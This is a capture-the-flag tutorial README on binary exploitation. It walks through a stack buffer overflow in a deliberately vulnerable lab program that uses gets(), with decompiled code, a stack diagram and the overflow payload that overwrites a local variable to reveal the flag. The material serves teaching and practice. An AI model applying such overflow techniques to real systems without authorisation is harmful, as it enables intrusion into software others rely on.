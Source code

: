 # Binary Exploitation / Pwn
Binary Exploitation of *Pwn* are problems on which the contestants are challenged to *hack* a program. One main thing to notice is that in this type of problems, the contestants are  given a connection to the remote challenge server, so **the flag is not on the program itself** but somewhere in the remote server. The usual way of solving binary exploitation problems is to hack and debug the program on your local machine first (may involve writing a fake flag), writing a script to do the same thing to the remote server, then executing the script. Pwn problems are mostly binary (ELF/Compiled C) program exploitation. Typical vulnerabilities in these programs include buffer overflow, format string attack, integer overflow, heap exploitation and more.

## Tools
The tools you might need to solve Pwn problems:
- Debugger ([gdb](http://www.gdbtutorial.com/tutorial/how-install-gdb), [gdb-peda](https://github.com/longld/peda)) - to RE compiled programs.
- Disassembler ([IDA](https://www.hex-rays.com/products/ida/), [Ghidra](https://ghidra-sre.org/), etc.) - to RE compiled programs.
- Scripting tool ([pwntools](https://github.com/Gallopsled/pwntools)) - to automate input to the program.
- etc.

## Example Problem
You can find the file [here](./example/README.md).

Follow the instruction to setup the remote server.

Notice that in the **real** CTF, the contestants are only given the [binary](./chall/bof0) and the connection to the remote server. This binary program is the exact same program running on the server.

*If you want to run the challenge with docker you may need to install [docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/install/) on your machine.*


## How to Solve
### Observation

First off, try connecting to the *remote* server:
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
*You can close the connection with **Ctrl-C***

Try the program locally:
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
The program asks for an input, if our input changes the local variable from 'stif' to 'h3h3', we get the flag.

To understand the program better, let's open it up in IDA (or gdb if you are hardcore).

Launch IDA, load the program, and disassemble the main function (F5).
```
  ...
  setbuf(_bss_start, 0LL);
  puts("hi! change the string variable to h3h3 and you'll get your flag!");
  vuln();
  exit(0);
}
```

Seems that the main function calls the `vuln()` function, let's disassemble that function.
```
  ...
  char v1; // [rsp+8h] [rbp-18h]
  char s1[8]; // [rsp+10h] [rbp-10h]  <- allocation
  ...

  ...
  *(_QWORD *)s1 = 0x66697473LL;		    <- s1 = 'stif' (or 0x66697473LL in hex)
  printf("your input: ");
  gets(&v1); 							            <- our input!!!
  printf("string is: %s\n", s1);
  if ( !strcmp(s1, "h3h3") )			    <- compare s1 to h3h3
  {
    puts("congrats! here's your flag");
    readFlag(); 						          <- this function reads the flag
  }
  ...
}
```

From that disassembled code, we know that the program asks for our input **USING `gets()`**, store it in v1, and then compares s1 (which is not our input) to "h3h3".

At first this may seem impossible, how can we change a pre-initialized variable given our control to another variable. The key is on how the program asks for our input, using `gets()`. The function `gets()` is an unsafe function that **DOESN'T LIMIT THE CHARACTER ENTERED**, this means that we can bypass the initially allocated space for our input. You can see how `v1` and `s1` are allocated on the header of the disassembled function in IDA.

Here is an illustration on how the variables `v1` and `s1` are allocated (in reference to `rbp`). Keep in mind that in C, 1 character = 1 byte.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
|   |   |   |   |   |   |   |   | s | t | i | f |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

So, to change `s1` to 'h3h3', we need to input any 8 characters (from rbp-0x18 to rbp-0x11) plus 'h3h3' itself. The following illustration pictures the input 'GANTENGZh3h3'.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| G | A | N | T | E | N | G | Z | h | 3 | h | 3 |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

Now try inputing the payload to the program locally.
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
Segmentation fault (core dumped)
```

You will not get the flag this way because the program is being run locally in your machine, hence the `SEGFAULT`.
Try connecting to the server and input the payload.
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
CTFGUIDE{3z_b0o00ooo0ff}
```

---

## External Resources
*TBD*
